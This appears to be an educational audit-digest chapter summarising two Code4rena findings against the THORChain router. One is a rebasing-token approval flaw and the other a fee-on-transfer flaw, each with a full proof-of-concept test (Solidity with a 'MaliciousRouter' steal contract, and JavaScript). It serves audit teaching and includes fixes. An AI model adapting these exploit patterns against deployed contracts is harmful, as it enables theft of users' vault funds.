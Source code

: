# ETAAcademy-Adudit: 10. Token

<table>
  <tr>
    <th>title</th>
    <th>tags</th>
  </tr>
  <tr>
    <td>10. Token</td>
    <td>
      <table>
        <tr>
          <th>audit</th>
          <th>basic</th>
          <th>EVM</th>
          <td>Token</td>
        </tr>
      </table>
    </td>
  </tr>
</table>

[Github](https://github.com/ETAAcademy)｜[Twitter](https://twitter.com/ETAAcademy)｜[ETA-Audit](https://github.com/ETAAcademy/ETAAcademy-Audit)

Authors: [Eta](https://twitter.com/pwhattie), looking forward to your joining

## 1. [High] A malicious user can steal money out of the vault and other users

### Calculating approvals for rebasing tokens

- Summary: A malicious user could exploit the rebasing mechanism of a token like AMPL to steal funds from the vault and other users. The issue arises because the protocol incorrectly handles the approval process for rebasing tokens. The malicious actor deposits 1000 AMPL tokens when the rebasing factor `_gonsPerFragment` is 1, and later, after the factor changes to 2, they can manipulate the system to withdraw more tokens than they originally deposited. This results in the depletion of funds for legitimate users, as the rebasing mechanism alters the token balances in the vault.

- Impact & Recommendation: The recommended fix involves correctly calculating approvals for rebasing tokens to prevent such exploits.

<br> 🐬: [Source](https://code4rena.com/reports/2024-06-thorchain#h-01-A-malicious-user-can-steal-money-out-of-the-vault-and-other-users) & [Report](https://code4rena.com/reports/2024-06-thorchain)

<details><summary>POC</summary>

```solidity

pragma solidity 0.8.22;
import "../lib/forge-std/src/Test.sol";
import {THORChain_Router} from "../chain/ethereum/contracts/THORChain_Router.sol";
contract AMPLTokenSimplified {
    uint256 public _gonsPerFragment = 1;
    mapping(address => uint256) public _gonBalances;
    mapping(address => mapping(address => uint256)) public _allowedFragments;
    function rebase(uint256 gonsPerFragment_) public {
        _gonsPerFragment = gonsPerFragment_;
    }
    function balanceOf(address who) public view returns (uint256) {
        return _gonBalances[who] / (_gonsPerFragment);
    }
    function transfer(address to, uint256 value)
        public
        returns (bool)
    {
        uint256 gonValue = value * (_gonsPerFragment);
        require(_gonBalances[msg.sender] >= gonValue, "You just got beamed lol");

        _gonBalances[msg.sender] = _gonBalances[msg.sender] - (gonValue);
        _gonBalances[to] = _gonBalances[to] + (gonValue);
        return true;
    }
    function allowance(address owner_, address spender) public view returns (uint256) {
        return _allowedFragments[owner_][spender];
    }
    function transferFrom(
        address from,
        address to,
        uint256 value
    ) public returns (bool) {
        _allowedFragments[from][msg.sender] = _allowedFragments[from][msg.sender] - (value);
        uint256 gonValue = value * (_gonsPerFragment);
        _gonBalances[from] = _gonBalances[from] - (gonValue);
        _gonBalances[to] = _gonBalances[to] + (gonValue);
        return true;
    }
    function approve(address spender, uint256 value) public returns (bool) {
        _allowedFragments[msg.sender][spender] = value;
        return true;
    }
    function mint(uint256 amount, address to) public {
        _gonBalances[to] = amount;
    }
}
contract StealMoney is Test {
  THORChain_Router tcRouter;
  AMPLTokenSimplified ampl;
  MaliciousRouter mRouter;
  address malicious = makeAddr('malicious');
  address victim = makeAddr('legit');
  address vault = makeAddr('legitVault');
  function setUp() public {
    tcRouter = new THORChain_Router();
    ampl = new AMPLTokenSimplified();
    mRouter = new MaliciousRouter();
    ampl.mint(1000, malicious);
    ampl.mint(2000, victim);
  }
  function testStealMoney() public {
    vm.startPrank(malicious);
    ampl.approve(address(tcRouter), type(uint256).max);
    tcRouter.depositWithExpiry(payable(malicious), address(ampl), 1000, "you are about to get beamed", type(uint256).max); // Malicious user deposits 1000 tokens
    vm.assertEq(tcRouter.vaultAllowance(malicious, address(ampl)), 1000); // Vault allowance for the malicious user is 1000 tokens
    vm.assertEq(ampl.balanceOf(address(tcRouter)), 1000); // Balance of contract is 1000 tokens
    ampl.rebase(2); // Set _gonsPerFragment to 2
    // Still pranking malicious
    tcRouter.transferAllowance(address(mRouter), malicious, address(ampl), 1000, "lol"); // This just approves 1000 tokens to spend to our malicious router
    vm.assertEq(tcRouter.vaultAllowance(malicious, address(ampl)), 0);
    vm.assertEq(ampl.balanceOf(address(tcRouter)), 500); // Balance is now 500 because _gonsPerFragment is 2
    vm.assertEq(ampl.allowance(address(tcRouter), address(mRouter)), 1000); // Malicious router has been approved for 1000 tokens
    vm.stopPrank();
    vm.startPrank(victim);
    ampl.approve(address(tcRouter), type(uint256).max);
    tcRouter.depositWithExpiry(payable(vault), address(ampl), 1000, "i am about to get beamed :(", type(uint256).max);
    vm.assertEq(tcRouter.vaultAllowance(vault, address(ampl)), 1000); // Allowance for vault is 1000 tokens
    vm.assertEq(ampl.balanceOf(address(tcRouter)), 1500); // Contract has 1500 tokens
    vm.stopPrank();
    uint256 maliciousBalanceBefore = ampl.balanceOf(malicious);
    mRouter.steal(1000, address(tcRouter), malicious, address(ampl)); // 1000 tokens to be sent from the router to the malicious guy
    uint256 maliciousBalanceAfter = ampl.balanceOf(malicious);
    assertEq(maliciousBalanceBefore, 0);
    assertEq(maliciousBalanceAfter, 1000); // 2000 / 2
    // Did not even lose money
    vm.assertEq(ampl.balanceOf(address(tcRouter)), 500); // Only 500 tokens left in the contract
    vm.startPrank(vault);
    // vm.expectRevert("You just got beamed lol");  // You can uncomment this line and paste this error message as the require statement error message after the transfer call to see this is where it reverts in transferOut()
    vm.expectRevert();
    tcRouter.transferOut(payable(victim), address(ampl), 1000, "did I just get beamed?...");
    uint256 victimBalanceBefore = ampl.balanceOf(victim);
    tcRouter.transferOut(payable(victim), address(ampl), 500, "omg I can only withdraw 500 tokens..");
    vm.stopPrank();

    uint256 victimBalanceAfter = ampl.balanceOf(victim);
    assertEq(victimBalanceBefore, 0);
    assertEq(victimBalanceAfter, 500);
  }
}
contract MaliciousRouter {
    function depositWithExpiry(address, address, uint256, string calldata, uint) public {}
    function steal(uint256 amount, address from, address to, address target) public {
        (bool ok, ) = target.call(abi.encodeWithSignature("transferFrom(address,address,uint256)", from, to, amount));
        if (!ok) revert();
    }
}

```

</details>

## 2. [Medium] Incorrect call argument in THORChain_Router::\_transferOutAndCallV5, leading to grief/steal of THORChain_Aggregator’s funds or DoS

### Charge fees on transfer

- Summary: The \_transferOutAndCallV5 function transfers tokens to the THORChain_Aggregator and then calls swapOutV5 with the same amount. However, if the token charges a fee on transfer, the THORChain_Aggregator might not receive the full amount, causing the swapOutV5 call to fail or allowing a malicious actor to steal or lock funds.

- Impact & Recommendation: Implement a safe transfer function to correctly handle tokens that charge fees on transfer, ensuring the actual transferred amount is used in subsequent operations.

<br> 🐬: [Source](https://code4rena.com/reports/2024-06-thorchain#m-01-Incorrect-call-argument-in-THORChain_Router::_transferOutAndCallV5,-leading-to-grief/steal-of-THORChain_Aggregator’s-funds-or-DoS) & [Report](https://code4rena.com/reports/2024-06-thorchain)

<details><summary>POC</summary>

```solidity

const Router = artifacts.require('THORChain_Router');
const Aggregator = artifacts.require('THORChain_Aggregator');
const FailingAggregator = artifacts.require('THORChain_Failing_Aggregator');
const SushiRouter = artifacts.require('SushiRouterSmol');
const Token = artifacts.require('FeeOnTransferERC20Token');
const Weth = artifacts.require('WETH');
const BigNumber = require('bignumber.js');
const { expect } = require('chai');
function BN2Str(BN) {
  return new BigNumber(BN).toFixed();
}
function getBN(BN) {
  return new BigNumber(BN);
}
var ROUTER;
var ASGARD;
var AGG;
var WETH;
var SUSHIROUTER;
var FEE_ON_TRANSFER_TOKEN;
var WETH;
var ETH = '0x0000000000000000000000000000000000000000';
var USER1;
const _1 = '1000000000000000000';
const _10 = '10000000000000000000';
const _20 = '20000000000000000000';
const transferFee = '1000000';
const currentTime = Math.floor(Date.now() / 1000 + 15 * 60); // time plus 15 mins
describe('Aggregator griefing', function () {
  let accounts;
  before(async function () {
    accounts = await web3.eth.getAccounts();
    ROUTER = await Router.new();
    FEE_ON_TRANSFER_TOKEN = await Token.new(transferFee); // User gets 1m TOKENS during construction
    USER1 = accounts[0];
    ASGARD = accounts[3];
    WETH = await Weth.new();
    SUSHIROUTER = await SushiRouter.new(WETH.address);
    AGG = await Aggregator.new(WETH.address, SUSHIROUTER.address);
    FAIL_AGG = await FailingAggregator.new(WETH.address, SUSHIROUTER.address);
  });
  it('Should Deposit Assets to Router', async function () {
    await web3.eth.sendTransaction({
      to: SUSHIROUTER.address,
      from: USER1,
      value: _10,
    });
    await web3.eth.sendTransaction({
      to: WETH.address,
      from: USER1,
      value: _10,
    });
    await WETH.transfer(SUSHIROUTER.address, _10);
    expect(BN2Str(await web3.eth.getBalance(SUSHIROUTER.address))).to.equal(
      _10
    );
    expect(BN2Str(await WETH.balanceOf(SUSHIROUTER.address))).to.equal(_10);
  });
  it("Should grief/steal Aggregator's tokens on Swap Out using AggregatorV5 with FEE_ON_TRANSFER_TOKEN", async function () {
    /*
      Mint FEE_ON_TRANSFER_TOKEN the aggregator
      This mocks a situation where the swapOutV5 has failed and vault's tokens are in the aggregator
    */
    await FEE_ON_TRANSFER_TOKEN.mint(AGG.address, _20);
    /* Get starting balances of the FEE_ON_TRANSFER_TOKEN */
    const startingTokenBalanceOfUser1 = await FEE_ON_TRANSFER_TOKEN.balanceOf(
      USER1
    );
    const startingTokenBalanceOfAggregator =
      await FEE_ON_TRANSFER_TOKEN.balanceOf(AGG.address);
    const startingTokenBalanceOfSushiRouter =
      await FEE_ON_TRANSFER_TOKEN.balanceOf(SUSHIROUTER.address);
    /* Log starting balances */
    console.log(
      'Starting FEE_ON_TRANSFER_TOKEN Balance USER1:',
      BN2Str(startingTokenBalanceOfUser1)
    );
    console.log(
      'Starting FEE_ON_TRANSFER_TOKEN Balance SUSHIROUTER:',
      BN2Str(startingTokenBalanceOfSushiRouter)
    );
    console.log(
      'Starting FEE_ON_TRANSFER_TOKEN Balance Aggregator:',
      BN2Str(startingTokenBalanceOfAggregator)
    );
    /* User1 deposits tokens in the ASGARD vault */
    /* Remember that the vault will be credited _20 - transferFee */
    await FEE_ON_TRANSFER_TOKEN.approve(ROUTER.address, _20, { from: USER1 });
    await ROUTER.depositWithExpiry(
      ASGARD,
      FEE_ON_TRANSFER_TOKEN.address,
      _20,
      '',
      currentTime,
      {
        from: USER1,
      }
    );
    /* Log token balance of Router and the accounted allowance after deposit */
    const tokenBalanceOfRouter = await FEE_ON_TRANSFER_TOKEN.balanceOf(
      ROUTER.address
    );
    console.log(
      '\nFEE_ON_TRANSFER_TOKEN Balance Router:',
      BN2Str(tokenBalanceOfRouter)
    );
    expect(
      BN2Str(await FEE_ON_TRANSFER_TOKEN.balanceOf(ROUTER.address))
    ).to.equal(BN2Str(getBN(_20).minus(transferFee))); // after FEE_ON_TRANSFER_TOKEN deposit
    /*
      The ASGARD initiates a transfer out and call
      This action transfers _1 token to the aggregator,
      BUT the aggreagator receives _1 - transferFee because of the fee-on-transfer.
      The code in the router calls swapOutV5 with the _1, not _1 - transferFee.
      This will make the transaction to revert if the aggregator does not have enough tokens,
      because the swapOutV5 function will try to transfer _1 token, but it has _1 - transferFee.
      OR (like) in our case, the aggregator has tokens that should be rescued and the swapOutV5 is called with _1
      and the transfer fee is paid by the funds that should be rescued
     */
    const swaps = 7;
    const swapAmount = _1;
    for (let i = 0; i < swaps; i++) {
      await ROUTER.transferOutAndCallV5(
        [
          AGG.address,
          FEE_ON_TRANSFER_TOKEN.address,
          swapAmount,
          ETH,
          USER1,
          '0',
          'MEMO',
          '0x', // empty payload
          'bc123', // dummy address
        ],
        { from: ASGARD, value: 0 }
      );
    }
    /* Calculate total transfer fee paid */
    const totalAmountSwapped = getBN(swapAmount).multipliedBy(swaps);
    const totalTransferFeePaid = getBN(transferFee).multipliedBy(swaps);
    /* Get ending balances of the FEE_ON_TRANSFER_TOKEN */
    const endingTokenBalanceOfUser1 = await FEE_ON_TRANSFER_TOKEN.balanceOf(
      USER1
    );
    const endingTokenBalanceOfAggregator =
      await FEE_ON_TRANSFER_TOKEN.balanceOf(AGG.address);
    const endingTokenBalanceOfRouter = await FEE_ON_TRANSFER_TOKEN.balanceOf(
      ROUTER.address
    );
    const endingTokenBalanceOfSushiRouter =
      await FEE_ON_TRANSFER_TOKEN.balanceOf(SUSHIROUTER.address);
    /* Log starting balances */
    console.log(
      '\nFinal FEE_ON_TRANSFER_TOKEN Balance Aggregator:',
      BN2Str(endingTokenBalanceOfAggregator)
    );
    console.log(
      'Final FEE_ON_TRANSFER_TOKEN Balance USER1:',
      BN2Str(endingTokenBalanceOfUser1)
    );
    console.log(
      'Final FEE_ON_TRANSFER_TOKEN Balance SUSHIROUTER:',
      BN2Str(endingTokenBalanceOfSushiRouter)
    );
    console.log(
      'Final FEE_ON_TRANSFER_TOKEN Balance ROUTER:',
      BN2Str(endingTokenBalanceOfRouter)
    );
    /* Make assertions */
    /* Less 1 FEE_ON_TRANSFER_TOKEN - transfer fee (only one transfer User1 -> Router) */
    expect(
      BN2Str(await FEE_ON_TRANSFER_TOKEN.balanceOf(ROUTER.address))
    ).to.equal(BN2Str(getBN(_20).minus(totalAmountSwapped).minus(transferFee)));
    /* Add 1 FEE_ON_TRANSFER_TOKEN - (transfer fee) * swaps */
    expect(
      BN2Str(await FEE_ON_TRANSFER_TOKEN.balanceOf(SUSHIROUTER.address))
    ).to.equal(BN2Str(getBN(totalAmountSwapped).minus(totalTransferFeePaid)));
    /* KEY ASSERTIONS */
    /* Expect aggregator's funds to be rescued to be less than starting ones */
    expect(
      getBN(endingTokenBalanceOfAggregator).isLessThan(
        getBN(startingTokenBalanceOfAggregator)
      )
    ).to.equal(true);
  });
});

```

</details>
